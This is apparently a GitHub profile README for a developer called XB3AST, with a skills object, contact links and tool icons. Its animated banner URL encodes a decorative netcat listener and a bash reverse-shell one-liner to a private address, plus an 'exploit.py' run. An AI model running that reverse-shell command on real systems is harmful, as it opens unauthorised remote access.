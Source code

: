 <h1>Hi I'm <i><a href="https://github.com/XBEAST1" rel="nofollow"><b>XB3AST</b></i></a>, And I'm</h1>

<img align="right" width="330" src="https://mir-s3-cdn-cf.behance.net/project_modules/disp/2bbf3a52005319.5901123c114f4.gif" alt="coding">

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=2700&pause=100&color=db24cf&multiline=true&width=500&height=255&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5BXB3AST%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.99.10%2F4444+0%3E%261;XB3AST%40profile%3A~%24+.%2Fexploit.py;...................PwN3d!......................................;+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++;%24whoami;XB3AST" alt="Typing SVG" /></a>

<p align="left">
  <img src="https://komarev.com/ghpvc/?username=xbeast1&label=Profile%20views&color=0e75b6&style=flat" alt="xbeast1" />
    &nbsp;
  <img src="https://badges.frapsoft.com/os/v1/open-source.svg?v=102" alt="Open Source Love"" />
</p>


```javascript
const data = {
    pronouns: "He" | "Him",
    codename: "XB3AST",
    status: "alive",
    doing: "Forging Web Realms and Crafting Cyber Scripts in Shadows...",
    code: ["{Python}", "{PHP}", "{Javascript}"],
    askMeAbout: ["soft dev", "web dev", "cyber sec"],
    webdev: {
        frontEnd: {
            technologies: ["HTML", "CSS", "JavaScript", "Bootstrap", "React JS", "Tailwind CSS", "GSAP", "Framer Motion"],
        },
        backEnd: {
            technologies: ["Node JS", "Express JS", "Next JS" "SQL, "PHP", "Laravel"],
        }
    },
    contact: {
        website: xbeast1.vercel.app,
        email: xbeast331@proton.me,
        instagram: 0x00007ff,
        youtube: @XBEAST321,
    },
};
```
<h2><b>💻 Access Me <a href="https://xbeast-terminal.vercel.app/">In Terminal</a></b></h2>

```
┌──(root@kali)-[~/]
└─# python3 xb3ast.py

Hello stranger! XB3AST is serving here...

┌──(root@kali)-[~/]
└─# 
```

<h3 align="left">Languages and Tools:</h3>
<img align="left" alt="linux" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/linux/linux-original.svg" style="padding-right:10px;" />
<img align="left" alt="debian" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/debian/debian-original.svg" />
<img align="left" alt="arch" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/archlinux/archlinux-original.svg" style="padding-right:10px;" />
<img align="left" alt="Visual Studio Code" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/vscode/vscode-original.svg" style="padding-right:10px;" />
<img align="left" alt="python" width="26px" src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" style="padding-right:10px;" />
<img align="left" alt="HTML5" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/html5/html5-original.svg" style="padding-right:10px;" />
<img align="left" alt="CSS3" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/css3/css3-original.svg" style="padding-right:10px;" />
<img align="left" alt="JavaScript" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/javascript/javascript-original.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="33px" src="https://devicon-website.vercel.app/api/tailwindcss/plain.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="26px" src="https://cdn.worldvectorlogo.com/logos/framer-motion.svg" style="padding-right:10px;" />
<img align="left" alt="React" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/react/react-original.svg" style="padding-right:10px;" />
<img align="left" alt="Node.js" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/nodejs/nodejs-original.svg" style="padding-right:10px;" />
<img align="left" alt="MongoDB" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mongodb/mongodb-original.svg" style="padding-right:10px;" />
<img align="left" alt="MySQL" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mysql/mysql-original.svg" style="padding-right:10px;" />
<img align="left" alt="Git" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/git/git-original.svg" style="padding-right:10px;" />
<img align="left" alt="GitHub" width="26px" src="https://user-images.githubusercontent.com/3369400/139447912-e0f43f33-6d9f-45f8-be46-2df5bbc91289.png" style="padding-right:10px;" />
<img align="left" alt="Terminal" width="26px" src="./img/terminal-dark.svg" />
<br>
<br>
